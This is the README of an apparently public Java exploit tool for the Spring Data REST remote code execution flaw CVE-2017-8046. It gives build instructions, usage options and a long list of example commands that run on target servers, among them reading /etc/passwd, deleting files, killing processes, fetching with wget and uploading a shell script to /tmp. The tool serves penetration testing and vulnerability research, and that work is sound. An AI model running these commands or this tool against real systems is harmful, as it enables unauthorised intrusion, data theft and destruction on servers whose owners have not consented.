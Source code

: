 # spring-break_cve-2017-8046

This is a Java program that exploits **Spring Break** vulnerability (**CVE-2017-8046**).

This software is written to have as less external dependencies as possible.

## DISCLAIMER

**This tool is intended for security engineers and appsec guys for security assessments. Please use this tool responsibly. I do not take responsibility for the way in which any one uses this application. I am NOT responsible for any damages caused or any crimes committed by using this tool.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.
* **Vendor link**: [https://pivotal.io/security/cve-2017-8046](https://pivotal.io/security/cve-2017-8046)

## How to generate an executable JAR

Here some steps to follow in order to generate an executable JAR, with all dependencies into it, that can be used to launch the exploit.

### with Maven

Following Maven command can be launched:

```
mvn clean compile package
```

### with Eclipse

Following steps can be done:
1. solve all external dependencies/libraries;
1. right click on the Eclipse project and go to `Run As > Run Configurations`;
1. right click on `Java Application` then on `New`;
1. choose a name and set the main class to `com.afs.exploit.spring.SpringBreakCve20178046`;
1. click on `Apply` button;
1. close the window and go back to the main Eclipse window;
1. right click on the Eclipse project and click on `Export...`;
1. find and choose `Runnable JAR file` (under `Java` branch);
1. in the following window:
   1. choose the correct `Launch configuration` created before;
   1. choose an `Export destination`;
   1. choose the option `Extract required libraries into generated JAR`;
   1. click on `Finish` button.

## Help

```
Usage:
   java -jar spring-break_cve-2017-8046.jar [options]
Description:
   Exploiting 'Spring Break' Remote Code Execution (CVE-2017-8046).
Options:
   -h, --help
      Prints this help and exits.
   -u, --url [target_URL]
      The target URL where the exploit will be performed.
      You have to choose an existent resource.
   -cmd, --command [command_to_execute]
      The command that will be executed on the remote machine.
   -U, --upload [file_to_upload]
      File to upload to the remote machine. Will be uploaded to the current working
      directory of the java process. Warning: this will only succeed on a server running
      JRE-1.7 or later.
   --remote-upload-directory [/some/existing/path/]
      Optional. Server will attempt to write the uploaded file to this directory on the
      filesystem. Specified directory must exist and be writeable.
   --cookies [cookies]
      Optional. Cookies passed into the request, e.g. authentication cookies.
   -H, --header [custom_header]
      Optional. Custom header passed into the request, e.g. authorization header.
   --clean
      Optional. Removes error messages in output due to the usage of the
      exploit. It could hide error messages if the request fails for other reasons.
   --error-stream
      Optional. In case of errors the command will fail and the error stream will
      not be returned. This option can be used to relaunch the remote command
      returning the error stream.
   -v, --verbose
      Optional. Increase verbosity.
```


## Examples

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln01.foo.com/api/v1/entity/123" --command ipconfig
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln02.foo.com/api/v2/entity/42" --command ipconfig --cookies "JSESSIONID=qwerty0123456789"
```

```
java -jar spring-break_cve-2017-8046.jar -v --url "https://vuln02.foo.com/api/v2/entity/42" --upload file.sh --remote-upload-directory /tmp
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln03.foo.com/asd/api/v1/entity/1" --command dir --cookies "JSESSIONID=qwerty0123456789;foo=bar"
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln04.foo.com/asd/api/v1/entity/1" --command "dir C:\Windows" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln05.foo.com/asd/api/v1/entity/1" --command "copy /b NUL ..\..\pwned.txt" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln06.foo.com/asd/api/v1/entity/1" --command "ping -c 3 www.google.it" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln07.foo.com/asd/api/v1/entity/1" --command "ps aux" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln08.foo.com/asd/api/v1/entity/1" --command "uname -a" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln09.foo.com/asd/api/v1/entity/1" --command "ls -l" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln10.foo.com/asd/api/v1/entity/1" --command "wget https://www.google.com" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln11.foo.com/asd/api/v1/entity/1" --command "rm index.html" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln12.foo.com/asd/api/v1/entity/1" --command "cat /etc/passwd" --clean
```

```
java -jar spring-break_cve-2017-8046.jar --url "https://vuln13.foo.com/asd/api/v1/entity/1" --command "kill -9 5638" --clean
```

Please note that the referenced resource/URL must exist!

## Vulnerable application

A vulnerable application can be found [here](https://github.com/m3ssap0/SpringBreakVulnerableApp).

## Authors

* **Antonio Francesco Sardella** - *main implementation* - [m3ssap0](https://github.com/m3ssap0)
* **Yassine Tioual** - *HTTP header enhancement* - [nisay759](https://github.com/nisay759)
* **Robin Wagenaar** - *for the suggestion to use patch operation 'remove' instead of 'replace' and for the file upload functionality* - [RobinWagenaar](https://github.com/RobinWagenaar)

## License

This project is licensed under the Apache License Version 2.0 - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability